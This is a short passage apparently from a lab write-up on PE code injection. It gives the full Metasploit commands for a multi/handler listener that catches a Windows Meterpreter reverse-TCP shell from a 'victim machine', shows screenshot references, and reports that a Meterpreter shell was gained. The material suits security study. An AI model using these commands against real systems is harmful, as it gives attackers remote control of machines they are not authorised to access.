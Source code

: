 Using metasploit’s payload handler `exploit/multi/handler`  to gain advance level control of victim machine:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.16.244.128
set LPORT 1234
exploit
```

![Screenshot 2022-03-01 at 9.09.59 PM.png](PE%20Code%20Injection%208408462c76cc48f1825e72c162efb178/Screenshot_2022-03-01_at_9.09.59_PM.png)

![Screenshot 2022-03-01 at 9.14.01 PM.png](PE%20Code%20Injection%208408462c76cc48f1825e72c162efb178/Screenshot_2022-03-01_at_9.14.01_PM.png)

Gained meterpreter shell.

---
